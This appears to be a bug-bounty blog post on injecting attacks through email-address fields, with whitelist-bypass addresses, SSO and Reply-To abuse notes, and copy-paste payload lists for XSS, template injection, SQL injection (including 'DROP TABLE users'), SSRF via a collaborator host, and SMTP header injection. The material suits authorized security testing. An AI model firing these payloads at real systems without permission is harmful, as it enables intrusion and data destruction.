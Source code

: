 ```yaml
---
author: "Jann Moon"
title: "Unforgivable E-mail Butchery"
description: "Endless mutilation and syntax violence for the pursuit of forced injection into your servers"
tags: ["bug bounty", "payloads", "injection vulnerabilities", "web hacking"]
date: 2023-11-03
thumbnail: floral11.jpg
---
```


**NOTE** A hefty part of this information comes from an awesome talk by Securiniti available here: https://www.youtube.com/watch?v=Bpnc1-g3fMk
Most credit must go to this smart cybermage.

If you check the specifics of acceptable syntax and allowed characters for naming e-mail addresses and DNS servers, you'll find some contradictions across the RFC 5322, RFC 6530 and any variety of rules that e-mail providers and e-mail address aggregating web hosts have implemented.
These discrepancies can lead to sweet vulnerabilities that squeeze through the cracks of WAFs and basically, any vulnerability you can dream of can potentially be exploited through a site's e-mail input box on the user registration page.

For e-mail naming contexts, you can generally use alphanumeric and some punctuation or special symbols.

Beyond that, you may be able to use spaces, emojies, foreign characters and various unicode to trigger errors.

Within an e-mail body, desktop clients and e-mail services will not execute JavaScript injected within.  However, web-based ticket systems may potentially do so, like a vulnerability that has seemingly been scrubbed from the internet, but it involved a blind XSS on the mailgun API using this method.
Beyond blind XSS, you can sometimes discover blind RCEs, through sending php files (or their cousins) and then fuzzing to discover them uploaded on the server.

### Recon via E-mail
E-mail addresses can be a good source of recon for cracking password logins or any other information you can dig up.
You can use tools like emailhippo and verify-email.org to find email addresses associated with a domain. Some common email addresses that attackers target include:

    Customer support: support@, feedback@, service@, help@
    Ticketing: jira@, asana@, bug@, bugs@, it@, tickets@
    Miscellaneous: print@, slack@, upload@, test@, tweet@

### Ignored Parts of an Email
Certain parts of an email can be ignored by most email servers, making them vulnerable to attacks. For example:

    The symbols +, -, and {} can be used for tagging and ignored by most email servers. For instance, john.doe+intigriti@example.com can be changed to john.doe@example.com
    Comments between parentheses at the beginning or the end of an email address will also be ignored. For example, john.doe(intigriti)@example.com can be changed to john.doe@example.com

### Whitelist bypass

* jann\(;jann@scumdestroy.com;\)@whitelisted.com
* jann@scumdestroy.com\(@whitelisted.com\)
* jann+\(@whitelisted.com;\)@scumdestroy.com

### IPs

You can also use IPs as domain named between square brackets:

* jann.moon@\[127.0.0.1\]
* jann.moon@\[IPv6:2001:db8::1\]

### Third-Party SSO Related Vulns
    XSS: Some services like Github or Salesforce allow you to create an email address with XSS payloads on it. If you can use these providers to login on other services and these services aren't sanitizing correctly the email, you could cause XSS. To prevent this, ensure that email servers are fully sanitized during preparing and sending.
    Account-Takeover: If a SSO service allows you to create an account without verifying the given email address (like Salesforce) and then you can use that account to login in a different service that trusts Salesforce, you could access any account. To prevent this, ensure that email addresses are verified before creating an account.
    Reply-To: You can send an email using From: company.com and Replay-To: attacker.com, and if any automatic reply is sent due to the email being sent from an internal address, the attacker may be able to receive that response. To prevent this, ensure that email servers are configured to block emails with suspicious reply-to addresses.


Here's a list of potentially exploitable payloads I've gathered and altered that you can try to inject into e-mail parameters on your next bug bounty campaign.

XSS (Cross-Site Scripting):
```js
test+(<script>alert(0)</script>)@example.com
test@example(<script>alert(0)</script>).com
"<script>alert(0)</script>"@example.com
```

Template injection:
```js
"<%= 7 * 7 %>"@example.com
test+(${{7*7}})@example.com
```

SQL injection:
```js
"' OR 1=1 -- '"@example.com
"mail'); DROP TABLE users;--"@example.com
```

SSRF (Server-Side Request Forgery):
```js
john.doe@abc123.burpcollaborator.net
john.doe@[127.0.0.1]
```
Note: SMTP responses pinging your collaborator server is normal but if you get an HTTP request, check for tokens or other interesting info in the body or headers.

Parameter pollution:
`victim&email=attacker@example.com`

(Email) header injection:
```js
"%0d%0aContent-Length:%200%0d%0a%0d%0a"@example.com
"recipient@test.com>\r\nRCPT TO:<victim+"@test.com
```

And if you'd like an easy list to copy and paste into Burp Suite's Intruder or FFUF, then you shall be blessed below.

```js
test+(<script>alert(0)</script>)@example.com
test@example(<script>alert(0)</script>).com
"<script>alert(0)</script>"@example.com
"<%= 7 * 7 %>"@example.com
test+(${{7*7}})@example.com
"' OR 1=1 -- '"@example.com
"mail'); DROP TABLE users;--"@example.com
john.doe@abc123.burpcollaborator.net
john.doe@[127.0.0.1]
victim&email=attacker@example.com
"%0d%0aContent-Length:%200%0d%0a%0d%0a"@example.com
"recipient@test.com>\r\nRCPT TO:<victim+"@test.com
```

Extra's I've discovered across more research...
```js
email@eaddress.com
firstname.lastname@address.com
email@subdomain.address.com
firstname+lastname@address.com
name@129.129.129.129
name@[129.129.129.129]
0123456789@address.com
email@address-one.com
email@address.name
email@address.co.jp
firstname-lastname@address.com
much."more\ unusual"@address.com
very.unusual."@".unusual.com@address.com
very."(),:;<>[]".VERY."very@\\ "very".unusual@strange.address.com
abcdefghijklmnopqrstuvwxyz!#$%&'*+-/=?^_`{|}~.0123456789@abcdefghijklmnopqrstuvwxyz-ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789.com
{jacco'vantuijl}@address.server
"Jacco\@test"@address.com
"Jacco van Tuijl"@address.com
"Jacco\\test"@address.com
"Jacco@test"@address.com
Jacco/van=Tuijl@address.com
\$A12345@address.com
!def!abc%dfg@address.com
_jacco@address.com
a.long.email.address.test@dept.address.com
"jacco.vantuijl.@.address.com"@address.com
jacco@mailserver1
#!$%&'*+-/=?^_`{}|~@address.org
"()<>[]:,;@\\\"!#$%&'*+-/=?^_`{}| ~.a"@address.org
" "@address.org
üñîçøðé@address.com
address@üñîçøðé.com
üñîçøðé@üñîçøðé.com#
```  





